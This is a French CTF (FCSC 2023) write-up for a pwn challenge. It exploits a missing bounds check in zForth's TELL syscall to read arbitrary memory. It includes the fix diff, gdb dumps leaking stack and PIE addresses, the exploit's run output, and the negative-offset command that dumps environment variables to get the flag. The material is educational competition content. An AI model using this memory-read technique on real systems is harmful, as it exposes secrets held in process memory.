

# FCSC2023 - Pwn Write-up : May The Forth


## 👀 - Overview

```
Un utilisateur de zForth refuse de mettre à jour son installation, car selon lui "cela ne sert à rien". 
Saurez-vous le détromper en trouvant le flag dans l'environnement de l'interpréteur (variable FLAG) ?
```

This was a really special challenge, to make it shorter, we have an interpreter of forth, [zforth](https://github.com/zevv/zForth) **without the last commit**. This commit is called: `Fixed potental out of bound memory access in example linux PEEK syscall. Thanks cde!`, cde being the creator of the challenge, we know for sure this is what we are supposed to exploit.

There is also the diff with the commit in the [given source file](./src/zforth-src/tell.patch):
```c
@@ -129,7 +129,11 @@ zf_input_state zf_host_sys(zf_syscall_id id, const char *input)
 
 		case ZF_SYSCALL_TELL: {
 			zf_cell len = zf_pop();
-			void *buf = (uint8_t *)zf_dump(NULL) + (int)zf_pop();
+			zf_cell addr = zf_pop();
+			if(addr >= ZF_DICT_SIZE - len) {
+				zf_abort(ZF_ABORT_OUTSIDE_MEM);
+			}
+			void *buf = (uint8_t *)zf_dump(NULL) + (int)addr;
 			(void)fwrite(buf, 1, len, stdout);
 			fflush(stdout); }
 			break;
```

## 🔍 - Analysis


To start the challenge, we must launch the `zforth` binary with the `core.zf` file as an argument so it loads everything. Once it's done, our interpreter is ready to work.

I'm not gonna explain a lot about forth, but I watched a few tutorials to have a better understanding on how the language works.

The most important is that forth is a **stack-based language**, which means that when I do:
```
> 1337
> 56
> .
```

`. is the equivalent of 'print' in forth`

In pseudo-code, it will look like:
```
> push(1337)
> push(56)
> print(pop())
```
So, it will print 56 to the screen.


The vulnerable code is the one handling the `tell` operation, which works like this:

```
<offset> <size> tell
0 4 tell
```
-> print 4 bytes at `dict`+0. Now I'll be honest, I still don't understand what the dict is, it seems to be something stocking words (equivalent of functions in forth) but I'm really not sure.

As we can see in `tell.patch`, there is no check that `offset` is in range of the dict. Sooo we can read the content of **any memory address** as long as we know the **offset between the target address and the dict address**.

## 🧙🏼‍♂️ - Exploiting

> Note: this time I tested my script remotely at each steps :-)

Looking with gdb where the dict was, I saw that it was just after the got.plt section, so I retrieved the version of the libc and calculated the base address, but it was not really helpfull since the flag is stored in the stack.

At some point I did a little script that dumped every single byte I could read before the program crashes (if we try to read somewhere memory isnt mapped, it will crash) but I did not find anything interesting at first.

Since I was having a hard time finding something, I wrote a script that tried to bruteforce the offset between the dict and the stack. I didn't believed in it so I let it run while I was trying to find something, and looking back I would never have found something since there's like millions of possibilities...



Looking at the dict position in gdb, we can see that **just after it**, there is a `jmp_buf` struct:
```
0x5655c170 <dict+4048>:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c180 <dict+4064>:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c190 <dict+4080>:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c1a0 <input_state>:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c1b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c1c0 <jmpbuf>:	0x5655b000	0xffffd310	0xf7ffcb80	0xffffc148
0x5655c1d0 <jmpbuf+16>:	0x4e24eca6	0x1ab32ff5	0x00000000	0x00000000
0x5655c1e0 <jmpbuf+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x5655c1f0 <jmpbuf+48>:	0x00000000	0x00000000	0x00000000	0x00000000
```

Leaking it remotely, this time there was also the **stack leaks** ! Even better we also have the **PIE leak**: `0x5655b000` !

Looking in ghidra, I found the **offset between** this leak and the dict which is `+416`, so now that we have the address of the dict and a leak of the stack, we can simply do `stack_leak - dict` to get the offset between the stack leak and the dict !

The last step was to convert this into a **negative offset**, because for some reason when I tried to simply add the offset, it got transformed into `0x80000000`, I still don't really know why.

Once we have the negative offset, we just have to read some bytes from this until we find the **environement variables**. I did not scripted this part and did it by hand because I was too hyped :-)

```
$ python3 exploit.py
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2105: Done

----------LIBC LEAKING----------
printf      @ 0xf3886020
---------------------------------

----------ASLR LEAKING----------
stack leak  @ 0xffbd7270
---------------------------------

----------PIE  LEAKING----------
binary leak @ 0x61d01000
---------------------------------

<!> START  ADDR = 0x61d011a0
<!> STACK  ADDR = 0xffbd7270
Start offset:  1645387567
[*] Switching to interactive mode
$ -1645387567 7300 tell 

<snip>
di=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
\x00LAG=FCSC{c7d99be764cf1fbdc3447eb935b51285}\x00OME=/home/ctf
```

And it's flagged !


## ✅ - Conclusion

That was a really fun challenge, even if the solution looks straight forward, the path to go there was challenging to me and made me learn some new stuff.

Thanks again to the creators, I really enjoyed this challenge !